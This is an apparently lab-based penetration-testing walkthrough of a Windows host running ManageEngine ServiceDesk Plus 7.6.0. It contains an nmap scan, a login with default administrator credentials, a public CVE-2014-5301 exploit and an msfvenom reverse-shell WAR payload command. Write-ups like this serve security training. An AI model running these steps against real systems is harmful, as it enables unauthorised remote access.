 First started with an namp scan

`nmap -sC -sV -T4 -oN nmap.txt <IP>`

```
# Nmap 7.93 scan initiated Sat Dec 24 07:22:32 2022 as: nmap -sC -sV -T4 -oN quickmap.txt -Pn 192.168.59.43                                                      [5/8]
Nmap scan report for 192.168.59.43                                                                                                                                    
Host is up (0.20s latency).                                                                                                                                           
Not shown: 995 filtered tcp ports (no-response)                                                                                                                       
PORT     STATE SERVICE       VERSION                                                                                                                                  
135/tcp  open  msrpc         Microsoft Windows RPC                                                                                                                    
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-23T22:23:01-08:00
|_nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 005056babaf7 (VMware)
| smb2-time: 
|   date: 2022-12-24T06:23:01
|_  start_date: 2022-12-24T06:22:06
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   202: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 24 07:23:41 2022 -- 1 IP address (1 host up) scanned in 69.24 seconds
```

got open ports, the focus is port 8080 which is running http service.

![image](https://user-images.githubusercontent.com/87468669/209432839-ad8b3af4-f34b-4bc6-90a0-962264ebc9ab.png)

As seen above, the web server is running `ManageEngine ServiceDesk Plus  |  7.6.0` old version software... try login with default creds administrator:administrator

![image](https://user-images.githubusercontent.com/87468669/209433145-46c64e26-c938-45f3-b572-4952e998b6a2.png)

Boom! we are in, let's search for public exploit, we don't use msf here😎😎.

![image](https://user-images.githubusercontent.com/87468669/209432937-3e49a31f-1c87-4421-819c-3a6a9275258b.png)

While checking for exploits, i saw the exploit above, `https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py` download the exploit.

![image](https://user-images.githubusercontent.com/87468669/209433457-4cb7c6ad-dd83-4c67-9fb8-42e9aa391d2c.png)

First created a war payload `msfvenom -p java/shell_reverse_tcp LHOST=192.168.49.59 LPORT=1337 -f war -o shell.war` ncat listener fired up and now let's run the exploit.

![image](https://user-images.githubusercontent.com/87468669/209433565-30966d1d-a150-4859-872b-4f06aee74908.png)

And Boom!!! we got a reverse shell... 

![image](https://user-images.githubusercontent.com/87468669/209433654-5c03ac27-0a2c-4ba6-a05c-de2ecd21f8c4.png)

nice work without msf 😎 😎 😎
